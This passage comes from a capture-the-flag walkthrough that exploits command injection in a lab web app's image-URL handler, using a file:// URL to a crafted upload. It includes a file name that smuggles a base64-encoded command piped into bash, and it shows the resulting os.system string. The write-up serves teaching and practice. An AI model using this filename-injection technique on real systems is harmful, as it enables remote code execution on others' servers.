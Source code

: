 I want to get to that `os.system` call on the sixth line above. Unfortunately, to do so, there are hurdles.

First, the `urllib.request.urlretrieve(image_url)` must not error, which means the url must be valid and not throw an exception.

I was a bit confused by all the renaming, until I opened a Python terminal and used `urllib.request.urlretrieve` myself:

```

>>> local_filename, headers = urllib.request.urlretrieve('http://10.10.14.6/test.jpg')
>>> local_filename
'/tmp/tmpa7gaq4yh'

```

So it is stored in `/tmp`, and with no extension. That’s why the code is adding `.jpg` to the end. However, there’s another kind of valid url, and this time it preserves the filename:

```

>>> local_filename, headers = urllib.request.urlretrieve('file:///home/oxdf/test.jpg')
>>> local_filename
'/home/oxdf/test.jpg'

```

So if I can have it point to an existing file, and that filename has command injection in it, I should be able to get execution.

#### RCE POC

I’ll create a file with the following name:

```

oxdf@parrot$ echo 'ping -c 1 10.10.14.6' | base64 
cGluZyAtYyAxIDEwLjEwLjE0LjYK
oxdf@parrot$ touch '0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;' 

```

I’ll upload this to Writer using the form, and I can see it on the server:

![image-20211201211453785](https://0xdfimages.gitlab.io/img/image-20211201211453785.png)

I’ll send the POST to repeater, and clear out the `image` section, and fill in the `image_url` section:

![image-20211201211604634](https://0xdfimages.gitlab.io/img/image-20211201211604634.png)

When I send that, it will be passed to `urllib.request.urlretrieve`, which will return `local_filename` of `/var/www/writer.htb/writer/static/img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;`. The string that gets passed into `os.system` will be:

```

mv /var/www/writer.htb/writer/static/img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash; /var/www/writer.htb/writer/static/img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;.jpg

```
